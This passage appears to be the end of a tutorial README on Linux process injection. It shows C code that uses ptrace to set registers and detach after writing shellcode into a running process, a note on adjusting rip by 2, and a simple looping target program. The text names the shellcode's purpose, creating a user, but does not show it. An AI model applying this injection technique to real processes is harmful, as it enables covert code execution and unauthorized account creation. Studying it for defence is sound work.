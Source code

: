 **POKETEXT** works on **words**, so everything is converted to word pointers of 32 bits and we also increase i with 4 in every iteration of the for loop

```
if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
	{
	  perror ("ptrace(DETACH):");
	  exit (1);
	}
```
now that we have modified the process memory, we want to give control to that code with **PTRACE_SETREGS** and then Detach our program with **PTRACE_DETACH**

after calling inject_code you might have noticed **regs.rip += 2**

when we modify the instruction pointer, ptrace_detach subtracts 2 bytes from the instruction pointer (rip) so to compensate for that 2 byte loss, we add 2 to the **regs.rip**

To sum it up, we have our Process injector script ready, with simple shellcode to create a user 

Now, as our attacker program is ready we need a process to inject, for this purpose, we will spin up a quick c program

```
#include<stdio.h>
#include<unistd.h>

int main() {
	int i;

	printf ("PID: %d\n", (int)getpid());
	while(1==1){
		printf("working!\n");
		sleep(2);
	}
	getchar();
	return 0;

}
```
## Code

You can find the complete code and files at Author's Github Repo:

https://github.com/MalavVyas/LinuxProcessInjection

## Author
